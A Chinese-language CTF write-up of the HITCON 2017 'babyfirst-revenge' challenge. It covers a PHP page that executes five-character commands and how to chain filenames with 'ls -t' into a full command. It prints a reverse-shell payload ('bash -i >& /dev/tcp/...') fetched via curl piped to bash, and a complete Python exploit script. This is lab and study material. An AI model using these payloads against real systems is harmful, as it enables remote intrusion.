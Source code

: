 hitcon的题好难啊！！！！！
还是太菜了。。Orz
只能够赛后搭环境复现了。。
分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/babyfirst-revenge) 

这题是一个特别的命令执行题， 首先进去首页之后发现以下源码
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

-----


无论我们传什么进去他都会照单执行，但是每次的长度限制为最多5个字符，正常来说最短(?)的写shell方式应该是
```bash
echo x>>1
....
sh 1
```
但是其实我们可以利用ls来写shell，如下：
```bash
>a
ls>_
sh _  #也就执行了a指令 但是没有意义，所以我们就要构造一系列的指令出来追加到文件里
```
那么这里就涉及到几个问题：
1. ls出来是按照什么顺序排列的文件？
2. 追加文件的时候会自动加入换行 这个问题要怎么解决？
3. 如果ls途中有无用的文件怎么办？ 因为如果是以上的做法的话其实```cat _```你会发现里面还有一个```_```文件

>答案：
>1. ls -l的默认排序方式手册上写了是alphabetically（字典序）也就是说有可能后面加入的文件名排在前面，为了避免这个问题我们可以加入-t参数来使ls之后的结果按照最近修改的文件在前面的方式排列
>2. linux的命令执行中支持命令换行 需要用到反斜杠\ 写到最后面，如：![🌰](http://upload-images.jianshu.io/upload_images/6949366-4ac892737cccb5a3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
>3. 其实bash在执行脚本的时候遇到未知的命令会报错 但是这并不会使之退出，bash会继续执行下一行的命令，如图![🌰](http://upload-images.jianshu.io/upload_images/6949366-23d54fedc4febff3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

那到这里思路其实已经挺清晰的了, 就是通过写入一系列指令的分段，并用反斜杠\作为文件结尾，最后执行ls -t>g并且sh g来执行我们想要的指令，这里以执行反弹shell为例：

```bash
curl 10.188.2.20|bash
```
我的10.188.2.20/index.html文件内容为:
```bash
bash -i >& /dev/tcp/10.188.2.20/12345 0>&1
```

- 写入 ls -t>g指令到_文件
```bash
?cmd=>ls\\    #创建ls\
?cmd=ls>_    #创建 _ 文件 文件内容为_ \n ls\ \n
?cmd=>\ \\    #创建 \空格 文件
?cmd=>-t\\    #创建 -t\ 文件
?cmd=>\>g    #创建 >g 文件
?cmd=ls>>_   #将刚刚创建的文件名按照字典序写入_文件 这里的字典序是特殊符号在ls\的前面 所以在生成ls\之后我们要先ls>_ 保证ls\在最前面
```

最后生成的_文件结果如图：
![_ 文件](http://upload-images.jianshu.io/upload_images/6949366-621edcef6a1461e1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后我们需要生成我们自己的命令的时候直接sh _就可以在g文件里面生成我们想要的命令了 然后再sh g就可以rce了

比如我要执行 curl 10.188.2.20|bash (index.html已经提前放好反弹shell的命令)

因为这是按照时间倒叙ls 所以我要倒着生成我要执行的指令文件，比如orange大大的exp：

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw|python`
    # generate `curl 10.188.2.20|bash` 
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
    '>20\\',
    '>2.\\', 
    '>8.\\',
    '>18\\', 
    '>0.\\', 
    '>1\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]



r = requests.get('http://10.188.2.20:22460/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://10.188.2.20:22460/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```
在生成自己的命令时要注意各个命令段之间名字不能相同 因为不能生成两个带有相同命令段的文件名


//偷懒偷了好久才复现的。。Orz。。。。批评一下自己的懒惰。。
各位大佬有啥更好的思路欢迎分享


#### 使用Dockerfile

##### 安装Docker

##### 搭建
- 进入Dockerfile所在的目录
- 运行命令 ```docker build -t '自定义镜像名称' .``` (请注意最后的点不要少)
- 运行命令 ```docker images``` 查看是否已经成功构建景象
- 运行命令 ```docker run -id --name '自定义容器名称' -m '要分配给此容器的内存上限' --network='要分配给此容器的网络' -p '容器的外部端口':80 '自定义镜像名称' /run.sh```

##### 维护
进入容器 运行指令 ```docker exec -it '容器名称' /bin/bash```


镜像作者：Pr0ph3t
1415314884@qq.com
